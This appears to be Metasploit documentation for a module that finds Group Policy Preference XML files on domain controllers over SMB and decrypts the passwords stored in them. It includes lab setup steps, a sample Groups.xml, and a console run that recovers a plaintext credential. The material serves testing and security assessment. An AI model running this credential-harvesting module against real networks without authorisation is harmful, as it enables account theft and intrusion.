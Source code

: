 ## Vulnerable Application

This module enumerates files from target domain controllers and connects to them via SMB. It then looks for Group Policy
Preference XML files containing local/domain user accounts and passwords and decrypts them using Microsoft's public AES
key. This module has been tested successfully on a Win2k8 R2 Domain Controller.

### Test Environment

This vulnerability was patched in 2014 but Group Policy Prefence files can still be found in modern environments. Because of that it is
necessary to have a means to test this vulnerability in a contrived way.

Starting from a Windows Server that has been configured as an Active Directory Domain Controller:
1. Navigate to: `%SystemRoot%\SYSVOL\sysvol\$domain\Policies` where `$domain` is the name of the domain.
1. Create a subfolder. These folders typically use UUIDs within braces (e.g. `{31B2F340-016D-11D2-945F-00C04FB984F9}`) but the name does not
   matter for testing purposes.
1. In the new a new file (and the necessary parent folders) `MACHINE\Preferences\Groups\Groups.xml`.
1. Place the contents below in the new `Groups.xml` file.

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="SuperSecretBackdoor" image="0" changed="2013-04-25 18:36:07" uid="{B5EDB865-34F5-4BD7-9C59-3AEB1C7A68C3}">
		<Properties action="C" fullName="" description="" cpassword="VBQUNbDhuVti3/GHTGHPvcno2vH3y8e8m1qALVO1H3T0rdkr2rub1smfTtqRBRI3" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="SuperSecretBackdoor"/>
	</User>
</Groups>
```

This example XML data was taken from the unit test.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start msfconsole
1. Do: `use auxiliary/scanner/smb/smb_enum_gpp`
1. Do: `set RHOSTS ...`
1. Do: `set SMBUser ...`
1. Do: `set SMBPass ...`
1. Do: `run`

### Windows Server 2019 (Test Setup)

The following example use the contrived setup from the "Test Environment" section.

```
msf6 auxiliary(scanner/smb/smb_enum_gpp) > use auxiliary/scanner/smb/smb_enum_gpp 
msf6 auxiliary(scanner/smb/smb_enum_gpp) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(scanner/smb/smb_enum_gpp) > set SMBUSER smcintyre
SMBUSER => smcintyre
msf6 auxiliary(scanner/smb/smb_enum_gpp) > set SMBPass Password1
SMBPass => Password1
msf6 auxiliary(scanner/smb/smb_enum_gpp) > run

[*] 192.168.159.10:445    - Connecting to the server...
[*] 192.168.159.10:445    - Mounting the remote share \\192.168.159.10\SYSVOL'...
[+] 192.168.159.10:445    - Found Policy Share on 192.168.159.10
[*] 192.168.159.10:445    - Parsing file: \\192.168.159.10\SYSVOL\msflab.local\Policies\fake\MACHINE\Preferences\Groups\Groups.xml
[+] 192.168.159.10:445    - Group Policy Credential Info
============================

 Name               Value
 ----               -----
 TYPE               Groups.xml
 USERNAME           SuperSecretBackdoor
 PASSWORD           Super!!!Password
 DOMAIN CONTROLLER  192.168.159.10
 DOMAIN             msflab.local
 CHANGED            2013-04-25 18:36:07
 NEVER_EXPIRES?     1
 DISABLED           0

[+] 192.168.159.10:445    - XML file saved to: /home/smcintyre/.msf4/loot/20200828163158_default_192.168.159.10_microsoft.window_053830.txt
[+] 192.168.159.10:445    - Groups.xml saved as: /home/smcintyre/.msf4/loot/20200828163158_default_192.168.159.10_smb.shares.file_279441.xml
[*] 192.168.159.10:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_enum_gpp) >
```
